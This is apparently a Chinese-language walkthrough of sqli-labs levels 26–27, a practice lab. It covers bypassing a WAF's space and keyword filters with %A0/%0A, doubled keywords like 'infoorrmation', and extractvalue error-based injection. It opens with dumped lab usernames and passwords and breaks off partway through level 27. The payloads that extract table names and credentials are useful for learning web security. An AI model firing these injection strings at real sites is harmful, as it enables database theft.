Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4 

------

## less-26

空格绕过  总结 利用%A0进行绕过 后面的注释使用or '1'='1 进行闭合      !!  === **%0A也可以**=== !!

**注意：**在win中的phpstudy sqli的%A0不会被当做空格 所以win端的%A0绕过空格不行 可以使用报错注入:

```mysql
?id=100'||extractvalue(1,concat('$',(database())))||'1'='1
```

这一步没什么问题 注意了 下面一步进行爆表名的时候 因为不能用空格 所以可以多加括号的形式来绕过

```mysql
?id=100'||extractvalue(1,concat('$',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database()))))||'1'='1
```

**注意：**这边的information中的 or 会被WAF过滤 所以要复写变成infoorrmation 单词之间的空格用（）代替 爆字段也是同理

```mysql
?id=100'||extractvalue(1,concat('$',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database())anandd(table_name='users'))))||'1'='1
回显:Unknown XPATH variable at: '$id,username,password' 
```

爆数据

```mysql
?id=100'||extractvalue(1,concat('$',(select(group_concat(username,passwoorrd))from(users))))||'1'='1
```

**注意：**这边的password 中的 or 会被WAF过滤 需要复写成passwoorrd 完成

------

## less-27

union select的WAF绕过 闭合方式'

```mysql
?id=-1'%0Aunion%0Aselect%0A1,2,3%0Aor%0A'1'='1
Hint: Your Input is Filtered with following result: 1' 1,2,3 or '1'='1
```

发现union 和 select 都没了 判断是WAF把两个关键字给替换了 尝试绕过:

**使用注释符绕过**

```mysql
?id=-1'%0Aun/**/ion%0Aselect%0A1,2,3%0Aor%0A'1'='1
Hint: Your Input is Filtered with following result: 1' 1,2,3 or '1'='1
-- 发现不起作用
```
